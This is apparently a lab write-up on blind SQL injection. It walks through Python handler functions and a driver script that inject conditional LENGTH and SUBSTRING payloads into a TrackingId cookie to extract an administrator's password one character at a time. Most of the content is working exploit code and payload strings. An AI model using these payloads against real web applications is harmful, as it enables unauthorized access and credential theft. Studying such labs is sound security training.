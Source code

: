 We need to perform 2 actions:

1. Determine the password length
1. Determine each character of the password sequentially

__Determine administrator password length__

The following handler function is used to determine the number of characters in the password. It utilises the database `LENGTH` function for and tests it against a given number (val)

```python
def password_size_handler(val, op, pos):
  sql_passwd_inj = "' AND LENGTH((SELECT password FROM users WHERE username = 'administrator')) {} '{}".format(op, val)
  req.inject('cookie', 'TrackingId', sql_passwd_inj)
  resp = req.get()
  if resp.status_code != 200:
    print(f"HTTP Request failed with code {resp.status_code}")
    exit(1)

  return truthy_response(resp.content, 'Welcome')
```

__Determine the administrator password character string__

The following handler function is used to determine the value (val) of a given (pos) character in the password.

```python
def password_search_handler(val, op, pos):
  sql_passwd_inj = "' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), {}, 1) {} '{}".format(pos, op, val)
  req.inject('cookie', 'TrackingId', sql_passwd_inj)
  resp = req.get()
  if resp.status_code != 200:
    print(f"HTTP Request failed with code {resp.status_code}")
    exit(1)

  return truthy_response(resp.content, 'Welcome')
```
Note: the handler methods return True if "Welcome" string is in the HTTP resp body, else False

Now the code to iterate over each character in the password and determine it's value based on a conditional SQL injection

```python
import helper
from bsqli import SqliHttpRequest
from bsqli import binary_search
from bsqli import linear_search

# create the reference data-set
def prepare_lc_alphanumeric_data():
  return list(map(str, range(0,10))) + list(string.ascii_lowercase)

if __name__ == "__main__":
  signal.signal(signal.SIGINT, interrupt_handler)
  verbose, target, cookies = helper.args()
  data = helper.prepare_lc_alphanumeric_data()

  # create bsqli request object
  req = SqliHttpRequest(target, headers, cookies)
  print("extracting password length...")
  password_len = linear_search(list(range(0, 30)), password_size_handler, 1)

  # exit if unable to retrieve password length
  if not password_len or password_len == 0:
    print('ERROR: failed to retrieve password lenght!')
    exit(1)
```